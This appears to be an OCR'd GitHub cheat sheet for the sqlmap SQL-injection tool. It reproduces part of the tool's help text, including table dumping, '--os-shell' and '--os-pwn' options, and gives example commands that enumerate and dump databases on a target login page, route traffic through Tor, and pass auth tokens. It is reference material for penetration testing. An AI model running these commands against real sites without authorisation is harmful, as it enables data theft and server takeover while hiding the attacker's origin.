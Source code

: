 ```text
    --tables            Enumerate DBMS database tables
    --columns           Enumerate DBMS database table columns
    --schema            Enumerate DBMS schema
    --dump              Dump DBMS database table entries
    --dump-all          Dump all DBMS databases tables entries
    -D DB               DBMS database to enumerate
    -T TBL              DBMS database table(s) to enumerate
    -C COL              DBMS database table column(s) to enumerate

  Operating system access:
    These options can be used to access the back-end database management
    system underlying operating system

    --os-shell          Prompt for an interactive operating system shell
    --os-pwn            Prompt for an OOB shell, Meterpreter or VNC

  General:
    These options can be used to set some general working parameters

    --batch             Never ask for user input, use the default behavior
    --flush-session     Flush session files for current target

  Miscellaneous:
    --sqlmap-shell      Prompt for an interactive sqlmap shell
    --wizard            Simple wizard interface for beginner users
```
## Basics commands
### Simple mapping option
```shell
sqlmap -u "http://example.com/login.php"
```
### POST
```shell
sqlmap -u <POST-URL> --data="<POST-paramters>"
```
### Use TOR SOCKS5 Proxy
> ❗ Note: First active tor service: **service tor start**


```shell
sqlmap -u "http://example.com/login.php" --tor --tor --check-tor --tor-type=SOCKS5 --tor-port=9050 
```
### List all databases located at target site
```shell
sqlmap -u "http://example.com/login.php" --dbs
```
### List all tables in a database
```shell
sqlmap -u "http://example.com/login.php" -D site_db --tables
```
### List all columns in a table
```shell
sqlmap -u "http://example.com/login.php" -D database_name -T users
--columns
```
### Use authentication token
```shell
sqlmap.py -u "http://example.com/login.php" --data="id=1&str=val" --headers= "Authorization: Bearer <token>"
```